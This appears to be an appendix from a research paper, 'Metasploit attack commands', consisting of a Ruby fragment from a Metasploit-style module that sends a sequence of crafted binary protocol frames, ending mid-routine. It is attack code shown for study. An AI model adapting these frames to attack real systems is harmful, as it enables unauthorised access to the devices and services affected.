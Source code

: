 \documentclass[12pt,]{article}
\begin{document}
\section*{Appendix F}\label{appendix-f}

\subsection{Metasploit attack
commands.}\label{metasploit-attack-commands.}

\begin{verbatim}
def init
payload = "\x00\x5a\x00\x02"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x01\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x0a\x00" + 'T' * 0xf9
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x03\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x03\x04"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x04"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x01\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x0a\x00"
(0..0xf9).each { |x| payload += [x].pack("c") }
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x04"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x04"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x13\x00\x00\x00\x00\x00\x64\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x13\x00\x64\x00\x00\x00\x9c\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x00\x00\x00\x00\x64\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x64\x00\x00\x00\xf6\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x5a\x01\x00\x00\xf6\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x5a\x02\x00\x00\xf6\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x46\x03\x00\x00\xf6\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x3c\x04\x00\x00\xf6\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x32\x05\x00\x00\xf6\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x14\x00\x28\x06\x00\x00\x0c\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x13\x00\x00\x00\x00\x00\x64\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x20\x00\x13\x00\x64\x00\x00\x00\x9c\x00"
sendframe(makeframe(payload))
payload = "\x00\x5a\x00\x10\x43\x4c\x00\x00\x0f"
payload += "USER-714E74F21B" # Yep, really
#payload += "META-SPLOITMETA"
sendframe(makeframe(payload))
payload = "\x00\x5a\x01\x04"

\end{verbatim}
\end{document}
